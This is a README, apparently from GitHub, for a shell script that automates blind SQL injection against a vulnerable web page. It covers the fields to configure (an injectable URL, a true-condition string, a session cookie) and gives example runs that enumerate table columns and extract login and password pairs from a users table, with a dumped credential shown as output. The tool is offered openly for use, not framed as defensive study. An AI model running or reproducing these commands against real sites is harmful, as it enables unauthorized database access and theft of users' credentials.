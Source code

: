 # Blind SQL injection basic automation script
This basic script can be used to automate the process of exploiting blind SQL Injection to dump data

### Note: Change the following fields

1. URL="http://host.com/vuln.php?id=1'"
2. TRUESTRING="the output/partial output when condition is true"
3. Cookie="name:value"

![Screenshot](note.png)

### To run this file basic syntax is as follows:

`sqli_script.sh <expected size of output> "<sql query>"`
Example:

`./sqli_script.sh 20 "select column_name from information_schema.columns where table_name='users' limit 1,1`

### output:

extracting results for select column_name from information_schema.columns where table_name='users' limit 1,1

Result: login



`./sqli_script.sh 20 "select concat(login,'---',password) from users limit 0,1"`

### output:

extracting results for select concat(login,'---',password) from users limit 0,1

Result: A.I.M.---6885858486f

